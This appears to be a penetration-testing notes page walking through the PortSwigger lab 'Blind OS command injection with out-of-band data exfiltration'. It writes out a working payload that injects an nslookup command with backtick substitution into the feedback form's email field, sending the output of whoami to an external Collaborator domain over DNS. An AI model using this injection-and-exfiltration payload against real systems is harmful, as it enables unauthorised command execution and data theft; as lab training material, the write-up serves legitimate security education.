

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/command-injection/blind-oob-exfiltration/index.html · generator: mkdocs

---
title: "Lab: Blind OS command injection with out-of-band data exfiltration"
description: "Exfiltrate a blind command's output through a DNS subdomain sent to Burp Collaborator."
tags:
  - Web
  - Command Injection
  - Blind
  - OAST
  - PortSwigger
---

# Blind OS command injection with out-of-band data exfiltration

**Lab:** PortSwigger Web Security Academy — *Blind OS command injection with out-of-band data exfiltration* (Practitioner).

> The feedback function runs a shell command containing the user-supplied details. The command runs asynchronously, has no effect on the response, and its output cannot be redirected to a readable location. The goal is to run `whoami` and **exfiltrate the output** via a DNS query to Burp Collaborator.

## 1. The idea: smuggle output into a hostname

With pure OAST you can prove execution, but here you also need to *read* a value. The trick is to put the command's output **inside the hostname** you look up. DNS resolution sends that hostname to the Collaborator server, so the username appears as a subdomain in the interaction log.

## 2. Build the exfiltration payload

Intercept the feedback request, send it to Repeater, and set the `email` parameter to:

```text
email=||nslookup+`whoami`.abc123.oastify.com||
```

- `` `whoami` `` is **command substitution** — the shell runs `whoami` first and replaces the backticks with its output.
- that output is prepended as a subdomain of your Collaborator domain.
- `nslookup` then resolves `<username>.abc123.oastify.com`, sending the username to your server.

![Submitting the nslookup payload with backtick command substitution](images/blind-oob-exfiltration/image.png)

## 3. Read the username from the DNS interaction

Poll Collaborator. The incoming DNS lookup's hostname contains the output of `whoami` as its leftmost label:

```text
peter-xxxx.abc123.oastify.com
```

![Burp Collaborator shows a DNS interaction whose subdomain is the current username](images/blind-oob-exfiltration/image-1.png)

![The extracted username ready to submit](images/blind-oob-exfiltration/image-2.png)

Enter the recovered username to solve the lab:

![The lab marked solved after exfiltrating the command output over DNS](images/blind-oob-exfiltration/image-3.png)
